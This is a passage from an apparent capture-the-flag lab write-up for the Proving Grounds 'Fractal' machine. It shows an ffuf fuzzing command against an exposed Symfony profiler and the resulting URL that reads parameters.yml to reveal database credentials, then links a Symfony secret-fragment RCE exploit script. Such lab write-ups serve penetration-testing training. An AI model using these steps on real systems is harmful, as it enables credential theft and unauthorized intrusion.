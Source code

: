 
- `ffuf -u http://192.168.192.233/app_dev.php/_profiler/open?FUZZ=app/config/parameters.yml -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -fs 5522` → Found "file"
    
    ![Untitled](../assets/img/provingrounds/Fractal/Untitled%2012.png)
    

Now accessing the URL, I've found Database credentials.

- [http://192.168.192.233/app_dev.php/_profiler/open?file=app/config/parameters.yml](http://192.168.192.233/app_dev.php/_profiler/open?file=app/config/parameters.yml) 
    
    ![Untitled](../assets/img/provingrounds/Fractal/Untitled%2013.png)
    

## Exploitation

Searching a lot, I found the following article [https://al1z4deh.medium.com/how-i-hacked-28-sites-at-once-rce-5458211048d5](https://al1z4deh.medium.com/how-i-hacked-28-sites-at-once-rce-5458211048d5) 

- [https://raw.githubusercontent.com/ambionics/symfony-exploits/main/secret_fragment_exploit.py](https://raw.githubusercontent.com/ambionics/symfony-exploits/main/secret_fragment_exploit.py)
